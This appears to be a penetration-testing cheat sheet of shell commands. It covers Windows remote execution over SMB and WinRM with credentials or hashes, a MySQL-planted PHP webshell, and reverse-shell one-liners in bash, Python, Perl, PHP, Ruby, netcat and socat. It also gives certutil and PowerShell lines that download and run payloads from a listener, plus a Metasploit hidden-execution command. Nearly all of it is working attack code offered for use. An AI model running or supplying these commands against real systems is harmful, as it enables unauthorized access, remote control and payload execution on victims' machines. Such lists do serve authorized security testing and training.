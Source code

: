 # Shells


## Windows Shell

### SMB

```bash
wmiexec.py <domain>\<user>:<pass>@<target>
winexe -U <domain>/<user>%<pass> //<target> cmd.exe /c dir C:\
python psexec.py '<user>:<pass>@<target>'
psexec @targets.txt -u domain\user -p password -s command

crackmapexec smb --exec-method wmiexec <host> -u <user> -d <domain> -H <hash> -x <command>
crackmapexec smb --exec-method smbexec <host_file> -u <user> -d <domain> -H <hash> -x <command>
crackmapexec smb --exec-method atexec <host> -u <user> -d <domain> -H <hash> -x <command>
crackmapexec smb --exec-method mmcexec <host> -u <user> -d <domain> -H <hash> -x <command>

WmiExec.ps1 -ComputerName "<target>" -Command "Get-ChildItem C:\"
```

### WinRM

```bash
gem install evil-winrm
evil-winrm -i <target> -u <user> -p '<pass>'
```

---


## Webshell

### Mysql

```bash
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```

---

## Reverse Shell


### Check outgoing ports 

**Internet**

- [portquiz](http://portquiz.net/)

**local** 

```bash
# Generate and execute on target
msfvenom -p windows/meterpreter/reverse_tcp_allports -f exe > test_firewall.exe

# Listen for incoming traffic
tcpdump -ni any host <target>
```
### CMD

```bash
certutil -urlcache -split -f http://<listener_ip>:1234/shell.exe C:\Windows\Temp\shell.exe & start "" C:\Windows\Temp\shell.exe
```

### Powershell

```bash
Invoke-WebRequest -Uri "http://<listener_ip>:1234/nc.exe" -OutFile "nc.exe" & .\nc.exe -e cmd.exe <listener_ip> 1234

powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://<listener_ip>:1234/shell.ps1')|iex"
```


### Bash

```bash
bash -i >& /dev/tcp/<ip_listener>/1234 0>&1

msfvenom -p linux/x64/shell_reverse_tcp LHOST=<listener_ip> LPORT=1234 -f elf > /var/www/html/shell.elf
wget <ip_listener>:1234/shell.elf -O /tmp/shell.elf && chmod 777 /tmp/shell.elf && /tmp/shell.elf &
```

### Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_listener>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Perl

```bash
perl -e 'use Socket;$i="<ip_listener>";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


### PHP

```bash
php -r '$sock=fsockopen("<ip_listener>",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("<ip_listener>",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


### Ruby

```bash
nc -e /bin/sh <ip_listener> 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip_listener> 1234 >/tmp/f
```

### Socat

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip_listener>:1234
socat TCP4-LISTEN:1234,reuseaddr,fork EXEC:/home/leak
```




---

## Get better BASH shell 

Using socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:1234

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<listener_ip>:1234  
```

Using stty

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```
> does not work for ZSH, use BASH !

## Metasploit 

```bash
#Upload, hide and exec
execute -H -i -c -m -d calc.exe -f /home/toto/exploit.exe -a '-arg1 -arg2 -arg3'
```

